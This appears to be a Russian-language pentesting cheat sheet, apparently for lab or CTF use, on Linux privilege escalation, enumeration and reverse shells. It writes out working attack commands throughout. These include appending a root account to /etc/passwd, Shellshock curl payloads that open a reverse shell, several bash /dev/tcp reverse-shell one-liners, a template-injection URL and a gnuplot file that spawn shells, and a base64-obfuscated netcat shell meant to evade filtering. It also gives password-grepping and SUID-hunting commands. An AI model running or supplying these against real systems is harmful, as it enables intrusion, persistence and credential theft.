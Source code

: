 # pkexec
Как понять, подвержены ли ваши дистрибутивы уязвимости pkexec:

whereis pkexec

which pkexec

ls -la /usr/bin/pkexec

find / -type f -name pkexec

poc - https://github.com/arthepsy/CVE-2021-4034

# Полезные комманды Линукс

https://putty.org.ru/articles/unix-linux-ref


# открыть gui 
open .

# Добавление пользователя с правами root в /etc/passwd

echo "boot:$(openssl passwd -6 -salt boot password123):0:0:boot:/root:/bin/bash" >> /etc/passwd


# Скрипты повышения привелегий 

https://github.com/rebootuser/LinEnum

https://github.com/rebootuser/LinEnum.git

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

# enumeration

        дистрибутив;
            cat /etc/issue
           cat /etc/*-release
       версия ядра и разрядность;
                   cat /proc/version
                 uname -a
                  uname -mrs
                    rpm -q kernel
                   dmesg | grep Linux
                    ls /boot | grep vmlinuz-

       сетевые интерфейсы, порты, службы;
       netstat
            
       ss -tulpn

        процессы
        ps aux
        
        
curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh




curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

echo bmMgMTkyLjE2OC41MC4xMjMgNDQ0NCAtZSAvYmluL2Jhc2gK | base64 -d | bash   (обход фильтрации)

Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null



https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

https://gtfobins.github.io/  повышение привелегий через судо-приложения

реверс
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell



реверс генератор

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php   (Лучший PHP)

https://www.revshells.com/




Также вы можете загрузить zip-файл с RustHound https://github.com/OPENCYBER-FR/RustHound/archive/master.zip

wget https://example.com/file.zip - стянуть файйл с сервера. У себя сервер - python3 -m http.server 8080


Запустить интерактивную оболочку

script /dev/null -c bash

повысить до tty интелектуальной оболочки командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm


/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа
find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
find / -type f -user emily 2>/dev/null

# Найти строки из всех файлов где есть passw

cat * | grep -i passw*

grep -r "passw".

grep -rni 'enter_network' (поиск везде от текущей)

# Найти запущенные процессы 
ps -aux

pspy64 (Надо скачивать)

https://github.com/DominicBreuker/pspy

wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s

# Найти все файлы с пермишеном S

find / -user root -perm -4000 -exec ls -ldb {} \;

find / -user root -perm -u=s -type f 2>/dev/null

find / -perm -u=s 2>/dev/null

# Найти все сетевые соежинения 

 ss -tulpn
